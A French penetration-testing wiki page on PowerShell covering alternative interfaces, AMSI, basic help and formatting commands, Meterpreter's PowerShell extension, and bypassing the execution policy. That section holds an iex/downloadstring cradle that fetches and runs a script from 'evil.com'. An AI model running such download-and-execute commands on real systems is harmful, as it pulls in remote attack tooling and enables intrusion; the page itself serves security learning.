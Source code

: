 ```yaml
---
title: Powershell
permalink: /Powershell/
---
```


Généralités
-----------

- powershell.exe n'est pas "Powershell" mais juste une interface pour intéragir avec. Il est possible d'utiliser d'autres interfaces comme **Not Powershell** (https://github.com/Ben0xA/nps) ou **PSAttack** (https://github.com/jaredhaight/PSAttack)
- Il est possible d'activer le logging pour Powershell.
- (Powershell v5): Constrained Powershell Enforced (lié à DeviceGuard) permet de bloquer certaines fonctionnalités de powershell (notamment celles utilisées par Invoke-Mimikatz). Cependant ceci est limité à **powershell.exe**.
- (Windows 10): [Anti malware Scan Interface](https://msdn.microsoft.com/fr-fr/library/windows/desktop/dn889587(v=vs.85).aspx) fournit une interface pour les antivirus qui permet notamment de faciliter l'analyse AV en mémoire.
   - Il existe des méthodes pour bypasser AMSI.
   - La plupart des AV ne supportent pas AMSI.
- (Windows 10): [Just Enough Administration](/Just_Enough_Administration/)


Commandes
---------

Obtenir de l'aide en powershell:

``` powershell
Get-Help Get-Command # Obtenir de l'aide sur Get-Command
Get-Help Get-Command -examples # Affiche les examples
Get-Help Get-Command -full # Affiche toute l'aide
Get-Help Get-Command -Parameter * # Affiche les paramétres
Get-Command Out* # Renvoie toutes les commandes dont le nom contient Out*
```

Pour faire des boucles:

``` powershell
Get-Process | ForEach-Object {$_.Name} # Boucle sur chaque résultat de la commande Get-Process et renvoie le nom
```

Pour faire du formatting / output:

``` powershell
Get-Process | Format-List -Property Threads, SessionId # Affiche le résultat sous forme de liste en se limitant à certaines informations
```

Meterpreter
-------------------

Il est possible d'utiliser powershell à partir d'un meterpreter:
```
load powershell
```

Voir [Meterpreter New Windows PowerShell Extension](http://www.darkoperator.com/blog/2016/4/2/meterpreter-new-windows-powershell-extension)

Execution Policy
----------------

Il est possible de contourner l'execution policy ("\[...\] running scripts is disabled on this system."):

``` powershell
iex (new-object net.webclient).downloadstring('file:///C:\\Tools\\Powersploit\\Powersploit.psd1')
iex (new-object net.webclient).downloadstring('https://evil.com/powersploit.psd1')
```

-   Si powershell.exe est bloqué: il est possible d'utiliser **Not Powershell** (https://github.com/Ben0xA/nps)

Il est très important de comprendre que l'execution policy n'est pas un mécanisme de sécurité ! (Microsoft le dit lui-même)

Commandes utiles
----------------

Les commandes suivantes sont utiles à connaître lors de l'utilisation de Powershell:

Resources
---------

-  [PowerUp: A Usage Guide](http://www.harmj0y.net/blog/powershell/powerup-a-usage-guide/)
-  [PwnWiki](http://pwnwiki.io/#!scripting/powershell.md)
-  [DerbyCon - PowerShell Secrets and Tactics](https://www.youtube.com/watch?v=mPPv6_adTyg)
-  [PowerShell Security: Defending the Enterprise from the Latest Attack Platform](https://www.youtube.com/watch?v=_8yBjg7bRLo)
